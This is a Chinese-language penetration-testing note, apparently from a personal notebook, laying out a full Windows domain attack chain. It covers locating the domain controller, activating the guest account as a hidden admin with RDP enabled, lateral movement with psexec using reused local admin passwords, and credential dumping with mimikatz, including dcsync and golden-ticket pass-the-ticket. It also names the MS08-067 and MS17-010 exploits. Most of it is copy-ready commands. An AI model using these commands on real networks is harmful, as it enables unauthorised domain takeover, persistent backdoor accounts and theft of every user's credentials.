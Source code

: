 # Intranet

---

## window域介绍

域计算机登录到域时，身份验证是采用kerberos协议在域控制器上进行，登录到此计算机时通过SAM来进行NTLM验证

一般域成员可以登录到域中所有工作站，不包括域控制器，管理员在域中可以设置用户登录可以登录到哪些计算机



## 流程

目的：拿到了域成员的控制权，通过域信息、登录IP次数出现最多的，定位域控、从其他的域计算机中抓取域管理员密码，然后拿下域控

1.找域控：

```
dsquery server                          #等等域控的主机名，如WIN-KMZ8MFWF5L8

net group "domain controllers" /domain  #得到WIN-KMZ8MFWF5L8$(去掉$)

net view                                #查看视图，备注servidor master ad 域控、dns域控可能性很大

ping 主机名                             #ping域控的主机名， 得到域控IP

net group "domain admins" /domain      #找域管理员

net user /domain    |net user 域用户 /domain    #找域所有成员
```

其他信息查看：

```
（net config workstation  #查询当前登录域  如pico.local

​    net accounts /domain   #查询域密码策略

​    net view /domain     #查看所有域

​    net group "domain computers" /domain   #查看当前域的计算机列表

​    wmic qfe          #查询补丁信息

​    wmic os           #查看操作系统类型）
```

guest用户隐藏

```
net user  guest  /active:yes                      #激活guest用户

net localgroup  administrators  guest  /add       #将guest用户添加到

net user guest    密码                            #更改guest用户密码

REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f                          #开启3389端口
```

2.因为整个内网很多台计算机，每个计算机的本地管理员的帐号和密码都是一样，除了域控（域控也可以试试），所以我们得到了本地管理员帐号密码的话可以直接使用登录其他计算机，并找出域管理员登录过的域计算机，就算注销掉也可以从内存中抓取密码hash

```
psexec \\IP -u administrator -p 密码 cmd  #获取IP的超级管理员的cmd

tasklist /v |find "域管理员名"
```

or

```
tasklist /s IP /u administrator /p 密码 /v |find "域用户名" #远程查看进程
```

批量操作：

```
psexec -accepteula @ip.txt -u administrator -p 密码 -c 1.bat

（ip.txt是ip ，1.bat是tasklist的指令）
```



3.找到域管理员登录过的IP的计算机进行登录，使用mimikatz抓取内存的密码

```
mimikatz log "privilege::debug" "lsadump::lsa /patch"  #pth攻击

mimikatz（管理员权限下运行）

kerberos::golden /user:域用户名 /domain:域名 /sid:   /krbtgt:密码hash    /ticket:test.kirbi

kerberos::ptt test.kirbi

在在另一个cmd中

klist   #查看缓存的票据

dir \\WIN-KMZ8MFWF5L8.pico.local\c$     #域控主机名.域名，使用票据传递进行查看
```

or

```
mimikatz
：：获取帮助
Privilege：：debug        提升权限
Sekurlsa：：logonpasswords 抓取密码
查看本地用户密码
```

or

```
dcsuync功能利用它可以从目录复制服务（DRS）的NTDS.DIT文件中检索密码哈希值。该项技术省去了直接使用域控制器进行身份验证的过程，因为它可以通过域管理员的权限从域的任何系统执行

lsadump::dcsync /domain:pentestlab.local /all /csv
```





4.如果dump不出域控密码，使用远程RPC请求，允许执行远程代码

```
魔波利用ms06-040  缓冲区溢出  针对netapi组件  

如果是域控是windows xp/2000/2003/2008等 可以是用ms08-067  针对netapi组件

wannacry利用ms17-010永恒之蓝攻击445传播病毒
```

可以在github上搜ms的扫描器

------------------------------------------------

## 内网穿透

[frp](https://p-t001.github.io/test_long/Penetration_test/test_soft/Intranet/Frp.html)



## dump超管密码

内网一般是windows系统

[mimakatz](https://p-t001.github.io/test_long/Penetration_test/test_soft/Intranet/mimakatz.html)




